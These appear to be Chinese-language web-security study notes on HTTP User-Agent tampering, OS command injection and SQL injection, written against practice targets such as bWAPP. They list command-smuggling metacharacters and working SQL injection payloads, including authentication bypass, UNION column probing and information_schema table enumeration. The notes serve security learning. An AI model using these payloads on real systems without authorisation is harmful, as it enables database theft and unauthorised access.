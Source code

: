 如果要塞flag的話..

![image](https://user-images.githubusercontent.com/96654161/182135844-c2240eeb-b33d-4921-bf3e-9916baa374b4.png)


### HTTP Header 竄改

這題要通過竄改User-Agent

![image](https://user-images.githubusercontent.com/96654161/182141988-573330f4-abf9-4d66-b74f-1c8067f3c15f.png)

https://www.whatismybrowser.com/guides/the-latest-user-agent/android

拿其中一個測試，對User-Agent做更改

`Mozilla/5.0 (Linux; Android 12) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.129 Mobile Safari/537.36.`


![image](https://user-images.githubusercontent.com/96654161/182141636-cfd96b9c-fd4c-43df-b432-a52f047b31bb.png)

![image](https://user-images.githubusercontent.com/96654161/182141683-1a8a14c3-8bcd-444f-b3c9-b4e2534bc758.png)

### Injection
攻擊者透過輸入資料內加入惡意語句，改變網站行為，達到惡意目的

+ OS Command Injection
  + 後端直接丟給 Shell 處理
  + 可以在正常輸入後面走私其他 Shell Script 進去讓他執行
  + 善用 `|` 、 `||` 、 `&` 、 `&&` 、 `;` 、 `>` 、 `$()` 、 ` 、 `#` 、 `${IFS}` 、去掉空白等等手法繞過檢查
![image](https://user-images.githubusercontent.com/96654161/182142877-9e93acea-6242-4a8d-ae21-e7ceae12cc5a.png)

![image](https://user-images.githubusercontent.com/96654161/182145372-4f0b7aed-0bd4-4d6f-95a9-24f50b9b306e.png)

+ SQL Injection
  + 後端拿使用者輸入的資料做 SQL 查詢
  + 後端將攻擊者挾帶進去的 SQL 語句當作正常 SQL 語句的一部份，改變原本 SQL 查詢行為

SQL 語句不分大小寫

  - SELECT 、 select 、 Select 、 sEleCt 
  - 所以你可以注入 ‘ oR is_aDmIn=trUe -- ’

不過 Table/Column name 不一定不分大小寫

  - SELECT * FROM users Where name=’admin’;
  - SELECT * FROM uSErs Where name=’admin’;
  
Column Value 也不一定不分大小寫

  - SELECT * FROM users Where name=’Alice’;
  - SELECT * FROM users Where name=’alICe’;


+ DBMS
  + 管理資料庫的軟體
  + 負責取資料庫中的資料、以及管理資料庫各項事務
  + 常見有 MySQL 、 PostgreSQL 、 Oracle 、 Microsoft SQL-Server 等
  
![image](https://user-images.githubusercontent.com/96654161/182147782-337dd371-4a68-4ea6-ade1-841c39d3a87e.png)

`SELECT * FROM users WHERE name='輸入Ａ' AND pwd='輸入Ｂ';` 

塞入payload

`SELECT * FROM users WHERE name='foo' AND pwd=' ' OR 1=1 -- ' ';`

`SELECT * FROM users WHERE name='foo' AND pwd=' ' OR 1=1 -- ' ';`

> ` -- ` 是 SQL 註解

### 善用註解
![image](https://user-images.githubusercontent.com/96654161/182149330-c0d5ec87-4f30-45fd-9381-e5771e4011a4.png)

### 善用字串
![image](https://user-images.githubusercontent.com/96654161/182150785-59b13c02-e7d3-4296-8334-497097aa779a.png)

### Union Based SQLi
每個 SELECT 語句 Column 數要一樣

=> 可以用來測試該查詢語句的 column 數

=> 可以用來偷其他 table 的資料或其他資訊

1. ' UNION SELECT NULL,NULL ......, NULL -- '
2. ' UNION SELECT 1,2, ......, n -- '
3. ' UNION SELECT 1,2, ... @@version, ..., n --'

+ SELECT * FROM movies WHERE title LIKE '%' UNION SELECT NULL,NULL, ......,NULL --'%'

+ SELECT * FROM movies WHERE title LIKE '%' UNION SELECT 1,2, ......, n --'%'

+ SELECT * FROM moviesm WHERE title LIKE '%' UNION SELECT 1,2, ... ,@@version, ..., n --'%'

information_schema
+ Mysql 內建儲存 Database/Table/Column 名稱、存取權限等等資料的 Database
+ 關於 information_schema: https://blog.johnsonlu.org/mysql-information_schema/

bWAPP SQL Injection (GET/Search)

' UNION SELECT 1,2,...,GROUP_CONCAT(TABLE_SCHEMA),...,n FROM information_schema.TABLES WHERE TABLE_SCHEMA NOT LIKE "%schema" LIMIT 30 ; -- '
